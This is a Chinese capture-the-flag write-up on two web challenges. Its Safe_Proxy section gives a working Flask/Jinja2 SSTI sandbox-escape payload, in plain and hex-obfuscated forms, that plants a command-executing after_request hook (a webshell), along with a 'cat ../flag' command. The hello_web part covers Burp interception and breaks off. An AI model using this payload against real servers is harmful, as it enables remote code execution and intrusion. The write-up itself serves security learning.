 
### Safe_Proxy

打开网页，得到本题的题目 Python 代码，经过代码审计得知本题是一个 flask 框架的无回显 SSTI 模板注入，同时需要 break jail。

- https://www.cnblogs.com/meraklbz/p/18572680 无回显 SSTI
- https://blog.csdn.net/qq_38154820/article/details/111399386 breakjail

```python
# 原 payload
url_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['sys'].modules['__main__'].__dict__['app']})

# 改写后的 payload
url_for['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x65\x76\x61\x6c']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f(\'flask\').make_response(getattr(\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f(\'\x6f\x73\'), \'\x70\x6f\x70\x65\x6e\')(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for['\x5f\x5fglobals\x5f\x5f']['request'],'app':url_for['\x5f\x5fglobals\x5f\x5f']['\x73\x79\x73'].modules['\x5f\x5fmain\x5f\x5f']['\x5f\x5fdict\x5f\x5f']['app']})
```

改写重点在于对于 `__` 和其他关键字的处理，其中 .popup 方法无法直接改写，因此改用 getattr 然后再改写 popup。

将改写后的 payload 包裹在 `{{}}` 中，作为 code 字段的参数 post 到该网址，便能 getshell，然后访问 `/?cmd=cat ../flag` 拿到 flag：`flag{9d95d67a-47df-4eb2-a230-e9f30f2adc66}`。

### hello_web

使用 BurpSuite 抓包，在访问指定网页时看到如下 response。

![](attachments/Pasted%20image%2020241215093135.png)

去 /bookmarks.html，内含 hackme.php、tips.php 两个提示，访问对应 php。

在访问对应 php 之后重定向的请求的请求头中可以看到字段：

```
tip: &#105;&#110;&#99;&#108;&#117;&#100;&#101;&#46;&#112;&#104;&#112
=
tip: include.php
```